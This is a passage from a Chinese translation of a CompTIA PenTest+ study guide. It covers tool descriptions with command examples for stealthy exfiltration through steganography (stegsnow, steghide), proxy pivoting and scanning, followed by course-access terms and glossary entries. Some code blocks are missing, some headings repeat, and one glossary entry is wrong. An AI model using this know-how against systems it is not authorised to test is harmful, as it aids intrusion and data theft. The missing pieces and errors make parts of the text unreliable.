OpenStego ([`www.openstego.com/`](https://www.openstego.com/)) 是一款隐写工具，可以将隐藏数据嵌入文件并从中恢复。OpenStego 接收一个源文件（即你要隐藏的内容）和一张用于隐藏文件的图片，并通过图形用户界面提供这两个值。OpenStego 输出一张图片文件，从视觉上看与原始图片相同，但其中编码了源文件的完整内容。该信息可以选择性地进行加密，以防止未经授权的数据恢复。这类工具适用于数据渗出和安全控制规避。

###### OWASP ZAP

OWASP Zed Attack Proxy (ZAP) ([`www.zaproxy.org/docs/`](https://www.zaproxy.org/docs/)) 是一款免费的 Web 应用程序扫描器。其功能用途与 Burp Suite 非常相似，但提供了一组不同的功能。例如，ZAP 不像 Burp Suite 那样提供广泛的社区贡献插件列表，也不提供用于测试的集成浏览器。然而，它确实允许执行许多与 Burp Suite 相同的攻击——例如，注入 Web 内容、代理 Web 内容、爬取，以及查看来自 Web 服务器的请求和响应。不过，与利用内置漏洞扫描器的 Burp Suite 相比，ZAP 的漏洞识别过程更加手动。

###### Pacu

Pacu ([`rhinosecuritylabs.com/aws/pacu-open-source-aws-exploitation-framework/`](https://rhinosecuritylabs.com/aws/pacu-open-source-aws-exploitation-framework/)) 是由 Rhino Security Labs 创建的 AWS 安全测试工具包。它使用模块执行各种操作，包括测试权限、通过凭证注入后门以及实施自动化权限提升攻击。Pacu 在 第 6 章 中有讨论。

###### Patator

Patator ([`github.com/lanjelot/patator`](https://github.com/lanjelot/patator)) 是一款针对实时监听服务的密码暴力破解工具。它与 Hydra 和 Medusa 类似，是另一种使用模块针对特定协议的解决方案，可以执行主机和用户枚举，以及基于包含可猜测项目（如主机名、用户名和密码）的文件进行密码猜测攻击。

###### ProxyChains

ProxyChains ([`github.com/haad/proxychains`](https://github.com/haad/proxychains)) 允许你通过代理隧道传输除 Web 流量以外的其他流量。当你需要访问攻击平台无法直接到达、但你已攻陷的目标系统可以到达的网络上的系统时，这在渗透测试中非常有用。本质上，该工具允许你通过为任何其他协议创建代理隧道来桥接网络。它使用配置文件（默认：`proxychains.conf`）来确定隧道使用的端口和目标。例如，你可以用它来运行 Nmap，如下所示：

```
$ proxychains nmap -A 10.20.0.0/24
```

`proxychains.conf` 将包含类似下面的条目，用于指定你要通过哪个系统进行代理。因此，假设我们的攻击主机无法到达 `10.20.0.6`，但可以到达 `10.10.0.6`，而 `10.10.0.6` 可以到达 `10.20.0.6`。`proxychains.conf` 文件可以指定此设置，使前面的 `nmap` 命令生效。


或者，你可以使用 SOCKS 通过 SSH 运行 bash shell：


此命令告诉 SSH 在连接后在后台运行且不远程执行任何操作（`-fN`），并动态转发端口 8675（`-D`）。

###### Reaver

Reaver ([`github.com/t6x/reaver-wps-fork-t6x`](https://github.com/t6x/reaver-wps-fork-t6x)) 是一款 Wi-Fi 暴力破解工具，旨在攻击 WPS 注册器 PIN 码以获取 WPA/WPA2 密码短语，并可执行离线 Pixie Dust 攻击。示例在 第 4 章 中介绍。

###### Recon-ng

Recon-ng ([`github.com/lanmaster53/recon-ng`](https://github.com/lanmaster53/recon-ng) 和 [`github.com/lanmaster53/recon-ng/wiki`](https://github.com/lanmaster53/recon-ng/wiki)) 是一个用于进行侦察的框架。该工具实现了一个类似 Metasploit 的 Shell，你可以从中运行模块来执行侦察。模块可以从工具内部的市场下载。它使用 VirusTotal、GitHub、Censys 或 Shodan 等 Web 系统的 API 密钥，作为被动信息收集过程的一部分来收集 OSINT。这可以帮助你找到目标主机名、目标用户的社交媒体数据、泄露的凭证、联系信息等。Recon-ng 的使用示例在 第 2 章 中有更详细的介绍。

################ Responder

Responder ([`github.com/lgandx/Responder`](https://github.com/lgandx/Responder)) 是一款用于响应 LLMNR、NBT-NS 和 MDNS 请求并拦截交换产生的数据的工具。它可用于收集因请求不存在的服务或其他恶意重定向请求而产生的 Windows 质询哈希。该工具有多种用途，但这是你在考试中最可能看到的主要用途。

###### Rogue Access Points

无线安全测试工具可能充当流氓 AP。这可以诱使无线客户端连接，使测试人员能够从受害系统获取凭证或其他信息。无线渗透测试在 第 4 章 中介绍。

###### SCAP

安全内容自动化协议 (SCAP) ([`csrc.nist.gov/projects/security-content-automation-protocol`](https://csrc.nist.gov/projects/security-content-automation-protocol)) 是一组用于交换安全自动化内容的规范集合。规范包括用于资产识别、资产报告、NIST 的通用配置枚举 (CCE) 和通用平台枚举 (CPE)、开放漏洞评估语言 (OVAL)、软件标识 (SWID) 等的资源。其理念是为配置合规性检查和漏洞识别提供内容，以便多种工具能够基于标准执行额外的安全评估。这最常见于需要根据美国政府规范进行合规性审查的环境中。

###### ScoutSuite

ScoutSuite ([`github.com/nccgroup/ScoutSuite`](https://github.com/nccgroup/ScoutSuite)) 是一款多平台云安全审计工具。它通过命令行界面运行自动检查并生成报告，以突出显示云环境配置中的潜在缺陷或其他应手动调查的问题。这可用作大规模云评估中需关注区域的初步快速识别。使用示例在 第 6 章 中。

###### SearchSploit

SearchSploit ([`www.exploit-db.com/searchsploit`](https://www.exploit-db.com/searchsploit)) 是 Kali Linux 中包含的一个工具，可用于搜索 exploit-db。这允许你根据识别出的目标特征或特定漏洞搜索潜在的利用代码。

###### SET

社会工程学工具包 (SET) ([`github.com/trustedsec/social-engineer-toolkit`](https://github.com/trustedsec/social-engineer-toolkit) 和 [`github.com/trustedsec/social-engineer-toolkit/raw/master/readme/User_Manual.pdf`](https://github.com/trustedsec/social-engineer-toolkit/raw/master/readme/User_Manual.pdf)) 是一个用于社会工程学渗透测试的开源 Python 工具包。它与 Ettercap、Metasploit 和其他工具集成。除其他功能外，SET 可以为社会工程学攻击生成并托管基于 Web 的载荷，以及创建和发送伪造的电子邮件。使用示例可在 第 8 章 中找到。

################ Shodan


################ Shodan

Shodan ([`www.shodan.io/`](https://www.shodan.io/)) 的优势在于协助渗透测试人员使用被动技术收集目标信息。Shodan 扫描面向互联网的资产，收集有关开放端口和可识别服务的信息，并允许您搜索这些扫描的结果，而无需亲自接触目标。

###### Snow

Snow ([`manpages.ubuntu.com/manpages/bionic/man1/stegsnow.1.html`](http://manpages.ubuntu.com/manpages/bionic/man1/stegsnow.1.html)) 是一种隐写工具，允许您通过使用 ASCII 消息的空白空间隐藏数据来测试安全控制规避。这对于数据渗出测试很有用。由于尾随空白字符通常肉眼不可见，Snow 接受要隐藏的数据、一个口令、一个用于隐藏数据的文件以及一个用于放置结果的输出文件。它可以压缩数据以隐藏它，或者在恢复时解压缩。示例如下：

```
$ stegsnow -C -f hideme.txt -p "Super strong passphrase" innocent.txt hidden.txt
```

输出文件在肉眼看来将与原始的 `innocent.txt` 完全相同。

###### Sonic Visualiser

Sonic Visualiser ([`www.sonicvisualiser.org/`](https://www.sonicvisualiser.org/)) 拥有图形用户界面，旨在通过将声音数据以波形或其他模式的形式直观显示来分析音频文件的内容。它可用于从音频文件中检索由 Coagula 等工具隐藏的隐写数据。一个此类用例的详细写入可在此处找到：[`www.okiok.com/cyber-beats-nsec-2020-write-up/`](https://www.okiok.com/cyber-beats-nsec-2020-write-up/)

###### Spooftooph

Spooftooph ([`gitlab.com/kalilinux/packages/spooftooph`](https://gitlab.com/kalilinux/packages/spooftooph) 和 [`www.kali.org/tools/spooftooph/`](https://www.kali.org/tools/spooftooph/)) 是一款蓝牙测试工具，旨在欺骗或克隆蓝牙设备名称、类别和地址。该工具可以记录蓝牙信息、使用随机数据生成新的蓝牙配置文件、基于时间间隔动态更改配置文件，并选择从扫描日志中克隆的设备。它可用于扫描范围内的蓝牙设备、克隆设备并收集发送给它的信息。

###### SQLmap

SQLmap ([`sqlmap.org/`](https://sqlmap.org/)) 在提供目标 URL 时会尝试自动识别并利用 SQL 注入。如果您正在执行 Web 应用程序渗透测试，并使用 Burp Scanner 在表单中识别出潜在的 SQL 注入，则可以获取该 URL 并将其提供给 SQLmap。SQLmap 将尝试识别一个有效的 SQL 注入字符串，以便您利用该漏洞并检查影响，或在渗透测试期间提供利用概念验证。示例见 第 5 章。

###### SSH

Secure Shell (SSH) ([`www.openssh.com/`](https://www.openssh.com/)) 是一种加密的远程访问协议。它通常原生存在于 Linux 系统中，但也可能安装在 Windows 中。除了可用于远程管理外，SSH 还可用于跨网络隧道传输流量。这在 第 9 章 中讨论。

###### Steghide

Steghide ([`steghide.sourceforge.net/`](http://steghide.sourceforge.net/)) 是一款隐写程序，可以在图像或音频文件中隐藏或检索隐藏数据。生成的文件从人类视角来看，外观和声音与原始文件完全相同。隐藏时数据可以加密。用法示例：

```
$ steghide -cf myimage.jpg -ef secretfile.txt -sf newimage.jpg
```

这会将文件 `secretfile.txt`（嵌入文件）隐藏在一个名为 `newimage.jpg` 的新文件（隐写文件）中，该文件基于 `myimage.jpg`（载体文件）。运行时将提示输入口令。要恢复文件，必须使用 `-xf` 标志从 `newimage.jpg` 文件中提取数据回 `secretfile.txt` 并提供口令：

```
$ steghide -sf newimage.jpg -xf secretfile.txt
```

###### theHarvester

theHarvester ([`github.com/laramies/theHarvester`](https://github.com/laramies/theHarvester)) 是一款命令行工具，帮助渗透测试人员在渗透测试项目的早期阶段对目标执行 OSINT 信息收集。收集的数据示例包括电子邮件、姓名、子域名、IP 地址和 URL。它可以执行被动和主动信息收集，也可以执行 DNS 暴力破解。theHarvester 用法示例见 第 2 章。

###### TinEye

TinEye ([`tineye.com/`](https://tineye.com/)) 是一款反向图像搜索工具。您可以加载或引用一张图像，然后在线搜索它。您可以使用 Google 图片搜索做同样的事情，但这有时有助于找到原始图像，以确定其是否已被隐写工具篡改。例如，您可以将 TinEye 找到的图像与您怀疑已被篡改的副本进行比较，使用 ImageMagick 套件中的 `compare` 或类似 XOR 的工具，尝试推导出隐写文本。

###### truffleHog

truffleHog ([`github.com/trufflesecurity/truffleHog`](https://github.com/trufflesecurity/truffleHog)) 搜索 GitHub 仓库中的秘密（如 SSH 或 API 密钥），检查提交历史和分支中重要信息的意外泄露。搜索可以按深度、目标仓库和正则过滤器进行限制。在渗透测试期间，这些可用于识别凭证或密钥的潜在泄露，例如为云或身份验证服务目标建立初始访问点。

###### w3af

w3af ([`github.com/andresriancho/w3af/`](https://github.com/andresriancho/w3af/) 和 [`w3af.org/`](http://w3af.org/)) 是一款 Web 应用程序攻击和审计框架，旨在尝试发现并利用 Web 应用程序中的漏洞。在命令行启动 w3af 将进入 w3af shell，您可以在其中通过上下文设置提供运行参数并执行扫描。例如：


您可以使用它根据所有或一组审计插件检查单个目录的漏洞、爬取以识别其他 URL，甚至通过创建排除项来忽略特定表单或 URL。W3af 适用于扫描 REST API、识别端点，并尝试使用各种载荷自动识别和利用漏洞。

###### Wapiti

Wapiti ([`wapiti.sourceforge.io/`](https://wapiti.sourceforge.io/) 和 [`owasp.org/www-community/Automated_Audit_using_WAPITI`](https://owasp.org/www-community/Automated_Audit_using_WAPITI)) 是一款命令行工具，在黑盒渗透测试期间对 Web 应用程序进行模糊测试，并尝试识别 SQL 注入、XSS、文件泄露漏洞、XXE、CRLF 等。它还可以尝试对文件、目录和登录表单进行暴力破解。最简单的用法是：

```
$ wapiti -u http://targeturl/
```

Wapiti 扫描结果示例见此处：[`wapiti.sourceforge.io/example.txt`](https://wapiti.sourceforge.io/example.txt)

###### Whois

Whois ([`linux.die.net/man/1/whois`](https://linux.die.net/man/1/whois)) 是一项查询域名注册信息的服务，不仅仅是此处引用的 Linux 自带工具。该工具是该服务的客户端。`whois` 工具可用于查询 IP 或主机名的所有权信息，并可指定用于查询的 whois 服务器。这些概念在 第 2 章 中讨论。

###### Wifite2


###### Wifite

**Wifite** ([`github.com/derv82/wifite2`](https://github.com/derv82/wifite2)) 是一个用于攻击无线网络的 Python 脚本。它可以对 WPS 网络执行离线 Pixie Dust 攻击和在线 PIN 码暴力破解；捕获 WPA 握手包和 PMKID 哈希值；并执行各种 WEP 攻击，包括分片攻击、Chopchop 攻击和重放攻击。它需要 `aircrack-ng` 套件来进行无线捕获、中继和破解。GitHub 仓库中包含示例视频。

###### WiGLE

**WiGLE** ([`wigle.net/`](https://wigle.net/)) 是一个公共 Wardriving（无线网络侦测/绘图）数据集合，你可以用它来查找 SSID 和 BSSID，根据搜索数据库中的 GPS 信息确定它们的位置。这非常适合在无线或物理渗透测试评估前进行被动信息收集，因为你还可以查看地图，识别出社区报告的先前 Wardriving 过程中观察到的无线网络。

###### WinDbg

**WinDbg** ([`docs.microsoft.com/en-us/windows-hardware/drivers/debugger/debugger-download-tools`](https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/debugger-download-tools)) 是一个基于 Windows 的调试程序。它的用例与 OllyDbg 和 Immunity Debugger 等其他调试器类似，尽管每个工具的界面和输出都不同。对于渗透测试，由于其内核挂钩功能，有时首选它来进行 Windows 内核调试。

###### Wireshark

**Wireshark** ([`www.wireshark.org/`](https://www.wireshark.org/)) 是一个图形化的网络流量分析器。它可用于分析多种网络类型的数据包捕获，支持深度协议检查、实时数据包捕获，以及分析来自其他来源的 PCAP 文件。该工具在渗透测试期间有许多用途，包括从捕获的网络流中提取文件、从 VoIP 流量中提取会话、解构解密后的通信，以及分析网络通信以查找不安全传输的敏感数据。然而，捕获数据需要访问相关网络。这通常首先通过某种中间人攻击或访问网络通信的一方来实现。否则，可能只能看到广播流量。

###### WPScan

**WPScan** 是一款专注于 WordPress 安装的 Web 应用程序安全扫描器。它尝试根据版本数据、用户名枚举、已知默认密码、暴露的文件和已知漏洞数据库来识别不安全的 WordPress 配置和插件。商业使用该工具需要许可证。

- [`github.com/wpscanteam/wpscan`](https://github.com/wpscanteam/wpscan)
- [`wpscan.com/wordpress-security-scanner`](https://wpscan.com/wordpress-security-scanner)
- [`github.com/wpscanteam/wpscan/wiki/WPScan-User-Documentation`](https://github.com/wpscanteam/wpscan/wiki/WPScan-User-Documentation)

## 附录 A

### 考试目标映射

#### 考试目标映射：PT0-002 考试


## 附录 B

### 关于在线内容

本书附带 TotalTester Online 可定制练习考试软件，包含 170 道练习考试题和其他书籍资源，包括 10 道模拟性能题和可下载文件，以便跟随 第 5 章 中的练习操作。

#### 系统要求

推荐并支持以下桌面浏览器的当前和前一个主要版本：Chrome、Microsoft Edge、Firefox 和 Safari。这些浏览器更新频繁，有时更新可能会导致与 TotalTester Online 或托管在 Training Hub 上的其他内容出现兼容性问题。如果您在使用其中一种浏览器时遇到问题，请尝试使用另一种，直到问题解决。

#### 您的 Total Seminars Training Hub 账户

要访问在线内容，您需要在 Total Seminars Training Hub 上创建一个账户。注册免费，您将能够使用您的账户跟踪所有在线内容。如果您愿意，也可以选择加入以接收来自 McGraw Hill 或 Total Seminars 的营销信息，但这不是获取在线内容访问权限的必要条件。

##### 隐私声明

McGraw Hill 重视您的隐私。请务必阅读注册期间提供的隐私声明，了解您提供的信息将如何被使用。您可以通过访问 McGraw Hill 隐私中心查看我们的企业客户隐私政策。访问 [`mheducation.com`](http://mheducation.com) 网站并点击页面底部的 `Privacy`。

#### 单用户许可证条款和条件

随本书提供的数字内容的在线访问权受下文概述的 McGraw Hill 许可协议管辖。通过使用此数字内容，即表示您同意该许可的条款。

##### 访问

要注册并激活您的 Total Seminars Training Hub 账户，只需遵循以下简单步骤。

1.  访问此 URL：[`hub.totalsem.com/mheclaim`](http://hub.totalsem.com/mheclaim)
2.  要注册并创建新的 Training Hub 账户，请在 `Register` 选项卡上输入您的电子邮件地址、姓名和密码。创建账户不需要进一步的个人信息（如信用卡号）。

    如果您已有 Total Seminars Training Hub 账户，请在 `Log in` 选项卡上输入您的电子邮件地址和密码。
3.  输入您的产品密钥：`qtbr-r5kd-vkhx`
4.  点击以接受用户许可条款。
5.  对于新用户，点击 `Register and Claim` 按钮创建您的账户。对于现有用户，点击 `Log in and Claim` 按钮。

您将被带到 Training Hub 并获得本书内容的访问权限。

##### 许可证期限

通过 Total Seminars Training Hub 访问您的在线内容将在出版商宣布本书绝版之日起一年后到期。

您通过零售店购买的此 McGraw Hill 产品（包括其访问代码）受该商店的退款政策约束。

内容是 McGraw Hill 的受版权保护作品，McGraw Hill 保留内容的所有权利。作品版权归 McGraw Hill 所有，© 2022。

##### 转让限制

用户仅获得为其自身内部和个人使用而使用内容的有限权利，这取决于对本书的购买和持续拥有。未经 McGraw Hill 同意，用户不得复制、转发、修改、创作衍生作品、传输、分发、传播、出售、发布或再许可内容，也不得以任何方式将内容与其他第三方内容混合。

##### 有限担保

McGraw Hill 内容按“原样”提供。McGraw Hill 及其许可方不作任何种类的担保或保证，无论明示或暗示，包括但不限于对适销性或特定用途适用性的暗示担保，或关于任何 McGraw Hill 内容或其中信息的准确性、完整性、正确性或使用结果的任何担保，或关于许可方产品中用户或其他人员输入的任何信息、或可在许可方产品上或通过许可方产品（包括通过任何超链接或其他方式）访问的任何材料的担保，或关于不侵犯第三方权利的担保。任何种类的担保，无论明示或暗示，均被否认。通过使用 McGraw Hill 内容获得的任何材料或数据均由您自行决定并承担风险，用户理解将独自承担由此导致的其计算机系统损坏或数据丢失的责任。


无论何种原因，麦格劳-希尔公司及其许可方均不对任何订阅者、用户或其他任何人因任何不准确、延迟、服务中断、错误或遗漏承担责任，亦不对因此造成的任何损害承担责任。

在任何情况下，麦格劳-希尔公司或其许可方均不对任何间接、特殊或后果性损害承担责任，包括但不限于时间损失、金钱损失、利润损失或商誉损失，无论基于合同、侵权行为、严格责任还是其他法律依据，且无论此类损害就麦格劳-希尔内容的任何使用而言是可预见还是不可预见的。

##### TotalTester Online

TotalTester Online 为您提供 CompTIA PenTest+ (`PT0-002`) 考试的模拟环境。考试可在练习模式或考试模式下进行。练习模式提供带有提示、书籍参考、正确及错误答案解析的辅助窗口，并提供在答题过程中检查答案的选项。考试模式提供真实考试的模拟。题目数量、题目类型和允许时间旨在准确还原考试环境。自定义测验选项允许您从选定的领域或章节创建自定义考试，您还可以进一步自定义题目数量和允许时间。

要参加测试，请遵循上一节提供的说明以注册并激活您的 Total Seminars Training Hub 账户。注册时，您将被引导至 Total Seminars Training Hub。从 Training Hub 主页，选择页面顶部“学习”下拉菜单中的认证，深入查找您书籍对应的 TotalTester。您也可以从主页的“您的主题”列表中向下滚动找到它，然后点击 TotalTester 链接启动 TotalTester。启动 TotalTester 后，您可以选择自定义测验选项，并开始在练习模式或考试模式下进行自我测试。所有考试均提供总体成绩和按领域细分的成绩。

##### 其他书籍资源

以下章节详述了随书提供的其他资源。您可以通过选择“资源”选项卡，或从页面顶部“学习”下拉菜单或主页的“您的主题”列表中选择 **CompTIA PenTest+ All-in-One, 2e (`PT0-002`)** 来访问这些项目。屏幕右侧的菜单概述了所有可用资源。

###### 基于性能的题目

除了选择题外，CompTIA PenTest+ (`PT0-002`) 考试还包含基于性能的题目 (PBQ)，根据 CompTIA 的说法，旨在测试您在模拟环境中解决问题的能力。关于 PBQ 的更多信息请访问 CompTIA 官网。您可以通过导航至“资源”选项卡并选择“基于性能的题目测验”来访问随书提供的基于性能的题目。选择 PBQ 后，交互式测验将在您的浏览器中启动。

###### 可下载内容

“资源”选项卡还包含下载随书附带的额外内容的链接。本书的可下载内容包括用于跟随 第 5 章 练习的文件。

##### 技术支持

如有关于 TotalTester 或 Training Hub 操作的问题，请访问 **[www.totalsem.com](http://www.totalsem.com)** 或发送电子邮件至 **support@totalsem.com**。

如有关于书籍内容的问题，请访问 **[www.mheducation.com/customerservice](http://www.mheducation.com/customerservice)**。

## 词汇表

**访问控制列表 (ACL)**  
访问控制列表是授予或拒绝对文件、目录和其他对象等计算资源访问权限的规则。ACL 定义了授予对象的访问权限以及授予该访问权限的对象。本文在 Microsoft Windows 的上下文中进一步讨论了这些概念：[`docs.microsoft.com/en-us/windows/win32/secauthz/access-control-lists`](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-control-lists)

**访问控制点**  
一个经过刻意选择的入口或出口点，该点通过设计、监控或物理限制进行限制，允许设施所有者控制物理位置的进出。

**访问限制**  
定义渗透测试人员在测试开始时对访问权限有限制的条件。例如，在没有凭据的情况下进行测试，或从受保护网络外部测试内部系统的弱点。

**主动信息收集**  
涉及直接与组织资产（网络或其他）交互以收集信息，而非通过观察或外部方可用的详细信息进行间接交互。

**自组网模式**  
在此模式下，无线客户端 (STA) 以点对点模式连接；自组网通常被称为独立基本服务集 (IBSS)。

**地址解析协议 (ARP)**  
ARP 是一种用于在网络子网中查找 IP 地址对应的物理机器地址 (MAC) 的协议。

**高级加密标准 (AES)**  
一种对称分组密码，用于硬件和软件中以加密敏感信息。

**高级持续性威胁 (APT)**  
拥有资源建立持久、隐蔽、长期立足点的个人或团体（而非通过自动化），他们利用机会性攻击针对特定目标和特定受害者。APT 也可以指具有高超技能和复杂手段的威胁行为者，其动机是窃取敏感或有价值的信息。

**Android 模拟器**  
一种模拟 Android 设备功能的计算机软件程序。

**Android 应用包 (APK)**  
一种打包文件格式，包含在 Android 操作系统上运行应用程序所需的文件。

**适用性声明 (AS2)**  
AS2 是由 IEEE 开发的基于 HTTP 和 MIME 的协议，用于安全传输企业间 (B2B) 消息（特别是电子数据交换，即 EDI 消息）。

**应用容器**  
一种操作系统级虚拟化方法，用于控制单个服务的执行。典型的操作系统（如 Linux 和 Windows）允许多个进程和服务同时运行。应用容器在本质上是战略性的，专为单一目的设计。安全性通常从一开始就内置其中，因为攻击面仅限于容器中托管的服务。

**应用程序编程接口 (API)**  
一组标准和软件指令，提供了一种以编程方式与应用程序交互的结构化方法。

**架构概览**  
威胁建模过程中的一个步骤，用于记录应用程序或系统的功能，描述其物理和逻辑实现方式，并识别正在使用的技术。

**数组**  
一个包含一组相同数据类型元素（例如整数或字符串）的对象。

**认证、授权和审计 (AAA)**  
当被称为 AAA (triple-A) 时，认证、授权和审计指的是一个框架或协议族，旨在调解网络访问。认证识别用户。授权确定该用户被允许访问的内容或被允许执行的活动。审计是指在使用该访问权限时跟踪该用户的行为。

**后门**  
一种持久化机制，允许攻击者在远程连接暂时中断时保持对目标的控制。

**工牌克隆**  
复制有效身份（如 RFID 接近卡）的过程，该副本可用作认证器以进入受限区域。


##### 术语表

#### Basic Service Set Identifier (BSSID)
**Basic Service Set Identifier (BSSID)** 是无线接入设备（包括无线 AP 和路由器）的物理地址。BSSID 允许在单个 WLAN 内区分接入点，并包含在所有无线数据包中。

#### binary analysis
**binary analysis** 是在架构指令级别检查已编译程序或应用程序的功能和目的的过程。在安全上下文中，二进制分析常用于识别可被利用的漏洞。

#### binary search
**binary search** 是一种搜索算法，它取数组的中间元素并将其与目标值进行比较。如果中间元素匹配，则返回该元素。然而，如果该值大于中间元素位置，则丢弃数组的下半部分。此方法可用于帮助加速 SQL 注入攻击。

#### biometrics
**biometrics** 测量可用作补充认证解决方案的人类特征。它们依赖于人类属性（如视网膜、指纹、声音等）来允许访问信息系统或组织设施中的受限区域。

#### black box testing
**black box testing** 是一种测试，作为测试的一部分，不会披露关于系统、软件或组织的设计、结构或操作的任何信息。

#### bluejacking
**bluejacking** 是一种利用技术消息传递选项中的漏洞，在不实际配对设备的情况下向移动用户发送未经请求消息的方法。

#### bluesnarfing
**bluesnarfing** 是利用某些蓝牙固件中发现的漏洞，从无线设备窃取信息的过程。

#### Bluetooth Low Energy (BLE)
**Bluetooth Low Energy (BLE)** 是一种旨在显著降低功耗的蓝牙实现。它非常适合用于移动和专用设备。

#### broadcast storms
**broadcast storms** 是指在短时间内发生的过量广播流量，可能会干扰正常操作并导致网络中出现环路，即广播帧因冗余路径而在交换机之间来回反弹。这些通常由因未正确阻塞冗余路径而产生的环路引起。

#### brute-force attack
**brute-force attack** 是针对哈希的攻击，例如，尝试密钥空间内的每一种可能组合来破解哈希，而不依赖字典。暴力认证攻击可描述为一种通过反复发送不同内容来尝试绕过认证控制的方式，直到找到有效值并使认证成功。

#### buffer overflow
**buffer overflow** 是当程序写入缓冲区的数据多于其分配的空间时产生的错误条件。超出既定缓冲区边界会导致程序覆盖相邻的内存位置。

#### bump key
**bump key** 是一种设备，它使某人能够通过在插入锁内时对设备施加冲击力，来绕过易受攻击的锁。

#### certificate authority (CA)
**certificate authority (CA)** 是一个受信任的实体，负责为主机或用户签署、颁发和管理数字证书（即身份），用于建立安全通信。

#### cold boot attack
**cold boot attack** 是由普林斯顿大学研究人员（大约十年前）发现的一种攻击方法，他们演示了当设备在冷却或冻结温度下循环电源时，能够从随机存取存储器 (RAM) 中恢复磁盘加密密钥的能力。

#### comma-separated value (CSV)
**comma-separated value (CSV)** 是一种使用逗号分隔数据字段的结构化数据格式。

#### command-line interface (CLI)
**command-line interface (CLI)** 是一种使用基于文本的输入和输出进行用户与计算机交互的界面。

#### Common Attack Platform Enumerations and Classifications (CAPEC)
**Common Attack Platform Enumerations and Classifications (CAPEC)** 是由 MITRE 策划和维护的已知网络攻击模式字典。它可按攻击机制和领域以及其他标准（如 OWASP 或 ATT&CK 分类）进行搜索。在适用的情况下，CAPEC 条目将数据与相关的 CWE 条目关联。

#### Common Vulnerabilities and Exposures (CVE)
**Common Vulnerabilities and Exposures (CVE)** 计划由美国国土安全部网络安全和基础设施安全局 (CISA) 赞助，并由 MITRE 维护和策划。CVE 列表中的 CVE 记录包含唯一编号的条目，描述安全漏洞或暴露，以及关于它们如何被发现、如何被修复或如何工作的相关参考信息。

#### Common Vulnerability Scoring System (CVSS)
**Common Vulnerability Scoring System (CVSS)** 是一种开放的安全标准，用于评估安全漏洞严重性，并根据可利用性以及成功利用时对机密性、完整性和可用性的影响等标准，生成数值相对严重性评分。

#### Common Weakness Enumeration (CWE)
**Common Weakness Enumeration (CWE)** 是由 MITRE 策划和维护的已知软件和硬件弱点列表。弱点被定义为“软件或硬件实现、代码、设计或架构中的缺陷、故障、错误或其他错误，如果不加以解决，可能导致系统、网络或硬件容易受到攻击（<https://cwe.mitre.org/about/index.html>）”。

#### comparison operator
**comparison operator** 用于将一个值与另一个值进行比较。

#### compliance auditing
**compliance auditing** 是评估组织控制措施以确定其对标准和法规遵守情况的过程。

#### compliance-based assessment
**compliance-based assessment** 是在环境中测试组织遵循和实施给定安全标准（如 PCI、HIPAA、FISMA）的能力。

#### configuration auditing
**configuration auditing** 是将系统配置与公认最佳实践或采用的安全配置基线所描述的配置进行比较，旨在识别可能需要解决的安全问题或差异。

#### credentialed vulnerability scanning
**credentialed vulnerability scanning** 是由获得授权用户同等权限访问系统的漏洞扫描器进行的扫描。

#### cross-site request forgery (CSRF)
**cross-site request forgery (CSRF)** 是一种安全漏洞，允许攻击者向目标个人发送恶意请求，导致目标使用其已建立的会话认证执行其不打算执行的操作。这涉及发出一个或多个 HTTP 请求，且不包含任何不可预测的请求参数，针对仅依赖基于 Cookie 的会话管理的应用程序。

#### cross-site scripting (XSS)
**cross-site scripting (XSS)** 是一种针对网站的注入攻击类型。使用此攻击，攻击者可以利用 Web 应用程序编程中的弱点和未能适当清理用户可控输入的失败，暂时或持久地注入恶意脚本内容。

#### daemon
**daemon** 是任何在后台运行且不在用户直接控制下运行时执行任何功能的程序。

#### data loss prevention (DLP)
**data loss prevention (DLP)** 是一类安全工具和流程，旨在通过基于数据分类标准和标记强制执行入站、出站和访问规则，保护数据免遭泄露或滥用。

#### data mining
**data mining** 是分析大型数据集以揭示模式或隐藏异常的过程。

#### database (DB)
**database (DB)** 是存储在计算机系统中的结构化数据或信息的有组织集合。

#### deception
**deception** 在社会工程攻击中，欺骗是对个人身份或情况的虚假陈述，旨在说服目标执行其通常不愿执行的活动或泄露信息；欺骗技术是一种引诱攻击者遵循虚假线索以增加对攻击可见性的手段，如蜜网、蜜罐等。

#### deconfliction
**deconfliction** 是将渗透测试工件与实际入侵或其他活动的工件区分开来的过程，以帮助解决相互矛盾的结论或响应。

#### de-escalation
**de-escalation** 是一种尽快解决潜在问题以最小化或减轻影响的过程。


#### 术语定义

**dictionary attack**  
一种密码猜测攻击类型，它使用可能的密码列表作为猜测的来源。

**distributed denial of service (DDoS)**  
一种攻击类型，旨在通过使用多个分布式攻击资源使目标无法使用。这种攻击通常试图通过向目标发送大量网络流量或请求来淹没目标，试图压垮目标的运行能力。

**DNS forward lookup**  
使用完全限定域名（FQDN）查询 DNS 服务器，以获取主机的 IP 地址。

**DNS reverse lookup**  
使用 IP 地址查询 DNS 服务器，以获取与主机对应的完全限定域名（FQDN）。

**Domain Name System (DNS)**  
一组标准中的一种协议，用于将计算机名称与 IP 地址关联。

**Domain Name System Security Extensions (DNSSEC)**  
`DNSSEC` 基于 `PKI` 使用数字签名来保护 DNS 数据，进而保护 DNS 事务。数据所有者对数据进行签名，确保 DNS 事务的数据来源认证和数据完整性保护。

**double tagging**  
交换机端口配置为使用原生 VLAN 的结果，攻击者可以构造数据包，在其原生 VLAN 之外预置一个伪造的 VLAN 标签，以绕过第 3 层访问控制。

**Dynamic Host Configuration Protocol (DHCP)**  
`DHCP` 是一种网络管理协议，旨在自动为主机提供 IP 信息和其他网络数据（如网关和子网掩码），并在 `DHCP` 服务器上存储分配信息。

**dynamic-linked library (DLL)**  
微软操作系统中实现的共享库概念。`DLL` 文件（`.dll` 扩展名）可以包含代码、数据和资源，很像典型的可执行程序（`.exe` 扩展名）；但是，它不能像 `.exe` 那样被直接调用。库文件可以同时支持多个计算机程序，当软件从操作系统中移除时，有时也会移除 `DLL`，使其他计算机程序容易受到 `DLL` 注入攻击。

**elicitation**  
一种社会工程学过程，用于从目标中提取有意义的信息。

**evasion**  
成功挑战安全控制，例如将恶意软件部署在硬盘上杀毒软件不扫描的位置。

**exfiltration (exfil)**  
未经授权将数据从受保护空间内部移动到外部的过程，无论是通过复制、传输还是检索（例如 SQLi 结果的屏幕截图）。

**Extensible Authentication Protocol (EAP)**  
一种用于 `WPA` 和 `WPA2` 网络的认证框架。

**Extensible Markup Language-Remote Procedure Call (XML-RPC)**  
